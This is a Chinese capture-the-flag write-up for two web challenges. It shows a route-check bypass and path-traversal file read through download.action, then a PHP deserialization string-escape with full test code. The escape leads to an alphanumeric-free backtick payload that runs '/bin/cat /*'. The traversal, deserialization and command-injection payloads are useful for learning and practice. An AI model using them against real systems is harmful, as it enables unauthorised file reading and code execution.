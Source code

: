 自己参赛的，但是牢底坐穿。

## hinder
就是说当时一点想法也没有，上来直接permission denied...
没权限可能是由于路由被拦截，因此只要构造不符合条件的路由即可：
```
//hinder/
```
如果存在目录穿越则还可以
```
/a/../hinder/
```
然后在返回网页的注释处发现hint`/download.action?filename=hint`，任意文件读取。

这里直接拼在hinder/后面，`/a/../hinder/download.action?filename=../../../../../../../proc/1/cmdline/`，发现`/bin/sh/run.sh`。
但是读`/a/../hinder/download.action?filename=../../../../../../../bin/sh/run.sh`读不出，
直接读``/a/../hinder/download.action?filename=../../../../../../../run.sh`发现flag路径，读取即可。

## unserize
当时盲猜一手源码www.zip，真下载到了。当时感觉函数aaaa<->bbbbbb感觉是php反序列化字符串逃逸，但是不知道怎么利用。当时的想法是，利用a和b让push_it的session反序列化变成pull_it。
但是还是too naive，怎么可能，totally wrong。

[先知](https://xz.aliyun.com/t/9213)

反序列化构造payload时一切属性都可以设置为public。利用function中两个过滤函数中任意一个都行，root参数传入一堆a/b，通过过滤器后造成长度变短/变长。pwd传入构造好的反序列化字符串。

做个测试：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$a = new push_it();
$a->root = "bbbbbbbbbb";
$a->pwd = "wwwwwwwwww";
echo(serialize($a));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$a->pwd = new pull_it();
$a->pwd->x = "xxxxxxxx";
echo(serialize($a));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


?>
```

用a过滤器，每6个bbbbbb会吞掉2个字符变成4个aaaa，要把后面的`";s:3:"pwd";s:xx:`也吞掉，总共吞17个字符，由于不是偶数，因此再多吞冒号后的一个引号，总共吞18个字符，
需要9*6=54个b，pwd用于构造pull_it的payload，具体如下：
```
function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }


?>
```
另外测试了一下星盟安全给的wp：`root=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&pwd=";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}`，吞掉之后的序列化字符串会变得很奇怪，本地测试是失败的。

接下来由于进入了正则匹配，过滤a-zA-Z0-9，因此需要无字符命令执行，把`ls`换成:
```
?><?=`/???/??? /*`;?>
```
我不懂为什么最开始要闭合php的?>标签。之后是短标签，反引号执行，通配符匹配使得最终执行的命令为`/bin/cat /*`

由于带奇怪的字符所以建议url编码后传输

所有测试用代码：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbb";
$aa->pwd = "wwwwwwwwww";
echo(serialize($aa));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$aa->pwd = new pull_it();
$aa->pwd->x = "xxxxxxxx";
echo(serialize($aa));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


// other wp:
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}';
echo(a(serialize($aa)));
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:84:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:47:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:84:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:47:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}";}';
var_dump(unserialize($s));
// bool(false)



$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }

?>
```
